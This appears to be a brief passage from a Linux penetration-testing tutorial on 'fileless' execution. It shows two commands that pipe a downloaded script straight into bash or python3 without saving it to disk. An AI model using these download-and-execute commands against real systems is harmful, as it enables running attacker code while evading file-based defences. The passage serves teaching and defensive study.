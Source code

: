 ----
Because of the way Linux works and how pipes operate, most of the tools we use in Linux can be used to replicate fileless operations, which means that we don't have to download a file to execute it.
#### Fileless Download with cURL
```bash
curl https://<url>/file | bash
```

Similarly, we can download a Python script file from a web server and pipe it into the Python binary.
```bash
wget -qO- https://<url>/file.py | python3
```

